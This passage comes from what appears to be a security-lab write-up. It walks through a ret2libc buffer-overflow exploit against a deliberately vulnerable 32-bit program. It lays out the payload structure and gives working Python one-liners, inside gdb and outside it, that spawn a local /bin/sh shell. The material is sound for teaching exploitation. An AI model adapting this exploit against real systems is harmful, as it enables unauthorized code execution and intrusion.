 ## Exploiting

Assuming we need to send 16 bytes of garbage to the vulnerable program before we can overwrite its return address, and make it jump to `system()` (located at `0xb7e13870`, expressed as `\x70\x38\xe1\xb7` due to little-endianness), which will execute `/bin/sh` that's present in  `0xb7f52968` (expressed as `\x68\x29\xf5\xb7`), the payload in a general form looks like this:

```csharp
payload = A*16 + address of system() + return address for system() + address of "/bin/sh"
```

...and when variables are filled in with correct memory addresses, the final exploit looks like this:

```c
r `python -c 'print("A"*16 + "\x70\x38\xe1\xb7" + "\x30\x6c\xe0\xb7" + "\x68\x29\xf5\xb7")'`
```

Once executed, we can observe how `/bin/sh` gets executed:

![Vulnerable program spawns a /bin/sh shell](<../../../.gitbook/assets/image (842).png>)

Let's see if the exploit works outside gdb:

{% hint style="warning" %}
Addresses of `system()`, `exit()` and `/bin/sh` used in the below payload are different to those captured in earlier screenshots due to a rebooted VM.
{% endhint %}

```python
./vulnerable `python -c 'print("A"*16 + "\x40\xe0\xe0\xb7" + "\x90\xb3\xf0\xb7" + "\x3c\x53\xf5\xb7")'`
```

![Once the vulnerable program is exploited, it spawns a /bin/sh](../../../.gitbook/assets/exploit-outside-gdb.gif)
